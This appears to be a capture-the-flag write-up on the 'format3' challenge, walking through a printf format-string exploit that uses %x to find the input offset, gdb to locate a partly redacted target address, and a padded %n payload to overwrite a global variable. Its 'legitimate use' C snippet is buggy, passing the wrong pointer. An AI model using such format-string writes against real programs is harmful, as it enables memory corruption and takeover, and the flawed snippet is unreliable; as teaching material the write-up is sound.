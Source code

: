```yaml
---
title:  "Writeup: format3"
date:   2019-03-27 11:08:00
categories: writeup
layout: post
author: Thomas White
---
```



The basis for the `format` problems are exploiting one of the many variations of `printf` in C. At first glance, it seems odd that a function as simple `printf` would be vulnerable. It just puts characters in the terminal, right? To gain some more insight, let's look at the flags you can use construct a format string out of (table abridged from [wikipeida](https://en.wikipedia.org/wiki/Printf_format_string#Type_field)):

| Character | Description |
|-----------|-------------|
| ...       | ... |
| "d, i"    | int as a signed decimal number ...|
| u         | Print decimal unsigned int.|
| "f, F"    | double in normal (fixed-point) notation ...|
| "e, E"    | double value in standard form ...|
| "g, G"    | double in either normal or exponential notation ... |
| "x, X"    | unsigned int as a hexadecimal number ... |
| o         | unsigned int in octal.|
| s         | null-terminated string.|
| c         | char (character).|
| ...       | ... |
| "a, A"    | double in hexadecimal notation ...|
| **n**     | Print nothing, but **writes the number of characters successfully written so far into an integer pointer** ...|

That looks interesting! It seems `printf` is not only allowed to 'print' to the terminal, but can also 'print' to a memory address. A legitimate use of this could look something like:

```c
int character_limit = 30;
int characters_input = 0;
printf("You input: ");
printf("%s%n\n", user_input, &character_limit);
if(characters_input > character_limit){
    printf("Maximum characters allowed is %d\n", chacter_limit);
    exit(1);
}
```

With `%n` in mind, let's take a brief look at the (abbreviated) source code for `format3`:

```c
int target;


void printbuffer(char *string)
{
  printf(string);
}
 ...

void vuln()
{
 ...
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);

  if(target == 0x01025544) {
    printf("you have modified the target correctly :)\n");
 ...
}
```

We see this time is that we are going to make `target = 0x01025544`. The first step to this is to find where our input is going to be relative to the `printf` call. We can do this by simply running the program.


```bash
python -c 'print "AABB"+" %x"*20' | ./format3

AABB f7f73e20 f7dd8fbb 0 f7f4b000 0 ffb49a68 8048527 ffb4981c 200 f7f4b5c0 f7f7080a f7f86000 f7d77dc8 f7f59580 42424141 20782520 25207825 78252078 20782520 25207825
target is 00000000 :(
```

Notice that in the 15th `%x` we see the beginning of our input AABB as hex `42424141`. Now we know that we need 15 format string flags in order to read the first 4 bytes of our input.

Next we need to find the address of `target` to put in our exploit string. Load up the binary in gdb and run:

```gdb
(gdb) b main
Breakpoint 1 at 0x80485b2: file format3.c, line 35.
(gdb) r
Starting program: /home/vagrant/challenges/format3r/format3
Breakpoint 1, main (argc=0x1, argv=0xffffd5e4) at format3.c:35
35        vuln();
(gdb) info address target
Symbol "target" is static storage at address 0x804????.
```

**Instructor's Note: I've redacted the address partially (via the "????" string) so that the reader can't just copy the solution string at the bottom.**

As we can see, `target` is located at `0x804????`. So what part of memory is that? A quick look at `info proc map` tells us that this address does not lie in the stack, but the output isn't super helpful otherwise. To answer our question, we need to use another utility: `readelf`. A quick call to `readelf -S format3` will give us all of the sections in our ELF[^1] binary and a quick look will tell us that address `0x804????` falls into `.bss`. The `.bss` section is a location in memory that holds unitilized data, all of which will be initialized to zeros when the program starts execution. Ah, so we can conclude that our compiler decided that the `.bss` section was to the best place to put the unitialized global variable `target`. In the absence of ASLR, we also suspect that this address will remain the same both inside and outside of gdb.

[^1]: [ELF](/papers/elf.pdf) is the file format used by Linux executables.

If we pull this all together, our current exploit string looks like `python -c "print '????\x04\x08'+'%x'*15"` which would stop printing after it prints `804????`. We need to subtract 1 `%x` and replace it with a `%n` for the value of `target` to get changed, so let's see what happens when we run

```bash
python -c "print '????\x04\x08'+'%x'*14+'%n'" | ./format3

Hf7fe7e20f7e4cfbb0f7fbf0000ffb6a5b88048527ffb6a36c200f7fbf5c0f7fe480af7ffa000f7debdc8f7fcd580
target is 00000060 :(
```

Great! We are setting values! `target` is now equal to `0x60`. Now we just need to do the character math to make it `target` equal `0x01025544`.

First let's replace all the `%x` with `%c` to ensure that 1 character is printed out per format string flag. Let's leave the last `%x` to allow us to specify padding and get the exact value we want in `target`. `0x01025544` in decimal is `16930116`. Then we do some subtraction:`16930116 characters needed - 13 %c's - 4 (target address) = 16930099 additional characters to print`.

This yields a format string of `python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'"`. Let's run it and see what it 
does:

```bash
python -c "print '????\x04\x08'+'%c'*13+'%.16930099x'+'%n'" | ./format3

you have modified the target correctly :)
flag: hello world!
```

To avoid waiting you can do 
```bash
python -c "print ...." | ./format3 | grep -a flag
```
